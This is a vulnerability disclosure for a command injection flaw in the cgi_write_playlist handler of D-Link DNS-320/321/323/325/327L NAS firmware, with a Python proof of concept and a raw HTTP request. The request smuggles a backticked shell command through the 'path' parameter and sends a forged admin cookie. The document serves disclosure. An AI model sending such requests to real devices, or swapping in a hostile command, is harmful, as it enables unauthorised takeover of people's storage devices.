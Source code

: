 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_write_playlist function of the file /cgi-bin/myMusic.cgi.  The variable `path`is passed from a POST request and is assigned to `v1` via the `snprintf` function at line 13 and invoked by the `system` command,  it can lead to command execution.

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723711977162-131f8499-e59e-4713-9f80-d270ea0019c8.png#averageHue=%23fdfdf8&clientId=u925acd4f-7201-4&from=paste&height=220&id=u722c0a7a&originHeight=220&originWidth=1069&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37413&status=done&style=none&taskId=uaaf203bd-5b25-4093-b471-1f880cede51&title=&width=1069)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_write_playlist&path=`touch%09/tmp/114`&idx=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_write_playlist&path=`touch%09/tmp/114`&idx=1
```
